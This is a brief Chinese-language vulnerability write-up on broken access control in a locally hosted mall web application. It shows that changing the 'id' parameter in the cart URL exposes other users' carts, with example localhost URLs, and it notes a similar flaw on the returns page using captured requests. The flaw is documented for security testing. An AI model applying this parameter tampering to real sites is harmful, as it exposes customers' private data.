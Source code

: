 ### 购物车页面的访问控制失效

更改路由中get参数可以访问不同用户的购物车



```
admin：http://127.0.0.1/mall/user/cart?id=1
root：http://127.0.0.1/mall/user/cart?id=2
user1：http://127.0.0.1/mall/user/cart?id=3
user111：http://127.0.0.1/mall/user/cart?id=4
user_2：http://127.0.0.1/mall/user/cart?id=5
user_8：http://127.0.0.1/mall/user/cart?id=6
jKkazSSt：http://127.0.0.1/mall/user/cart?id=7
mVwqXdkQ：http://127.0.0.1/mall/user/cart?id=8
uMT6CHRh：http://127.0.0.1/mall/user/cart?id=9
OPLxNaVt：http://127.0.0.1/mall/user/cart?id=10
```





### 退货页面访问控制失效

![image-20250228163947069](../../_media/image-20250228163947069.png)

抓包点击退货按钮

![image-20250228164019987](../../_media/image-20250228164019987.png)
